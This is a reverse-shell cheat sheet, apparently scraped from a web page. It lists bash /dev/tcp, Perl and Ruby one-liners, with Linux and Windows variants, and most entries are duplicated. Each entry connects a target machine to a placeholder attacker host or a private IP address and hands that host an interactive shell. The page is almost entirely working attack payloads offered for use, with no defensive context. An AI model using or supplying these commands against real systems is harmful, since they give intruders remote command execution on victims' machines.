 `0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196`

`0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196`

`exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done`

`exec 5<>/dev/tcp/attackerip/4444`

`cat <&5 | while read line; do $line 2>&5 >&5; done # or:`

`while read line 0<&5; do $line 2>&5 >&5; done`

`/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1`

`/bin/bash -i > /dev/tcp/192.168.23.10/443 0<&1 2>&1`


## PERL:
Shorter Perl reverse shell that does not depend on /bin/sh:

`perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’`

`perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’`

If the target system is running Windows use the following one-liner:

`perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’`

`perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’`

`perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’`

`perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’`

## RUBY:
Longer Ruby reverse shell that does not depend on /bin/sh:

`ruby -rsocket -e ‘exit if fork;c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’`

`ruby -rsocket -e ‘exit if fork;c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’`

If the target system is running Windows use the following one-liner:

`ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’`

`ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’`
